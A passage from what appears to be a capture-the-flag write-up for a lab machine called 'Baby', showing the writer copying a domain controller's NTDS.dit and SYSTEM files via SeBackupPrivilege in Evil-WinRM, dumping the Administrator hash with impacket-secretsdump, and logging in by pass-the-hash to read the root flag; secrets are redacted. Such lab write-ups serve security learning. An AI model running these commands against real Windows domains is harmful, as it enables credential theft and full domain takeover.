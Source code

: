 Copied NTDS.dit and SYSTEM to the public directory now that they aren’t protected anymore.

```
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Users\Public\ntds.dit
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> Copy-FileSeBackupPrivilege E:\Windows\System32\config\SYSTEM C:\Users\Public\SYSTEM
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> cd c:\users\public
```

Verified that everything worked as intended and downloaded both files.

```
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> cd c:\users\public
*Evil-WinRM* PS C:\users\public> ls
  Directory: C:\users\public
	Mode                 LastWriteTime         Length Name
	----                 -------------         ------ ----
	-a----         5/10/2024   1:16 PM       16777216 ntds.dit
	-a----         5/10/2024   1:16 PM       17039360 SYSTEM
	
*Evil-WinRM* PS C:\users\public> download ntds.dit
*Evil-WinRM* PS C:\users\public> download SYSTEM
```

<img src="/assets/img/baby/Untitled 3.png" alt="Untitled 3.png" style="width:800px;">

Dumped the administrator hash.

```bash
impacket-secretsdump local -ntds ntds.dit -system SYSTEM
Administrator:500:<REDACTED>:::
```

Connected over WinRM as the local administrator user and read the root flag. GGs!

```
evil-winrm -u administrator -H <REDACTED> -i 10.10.68.111

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
baby\administrator

*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
BabyDC

*Evil-WinRM* PS C:\Users\Administrator\Documents> type c:\users\administrator\desktop\root.txt
VL{<REDACTED>}
```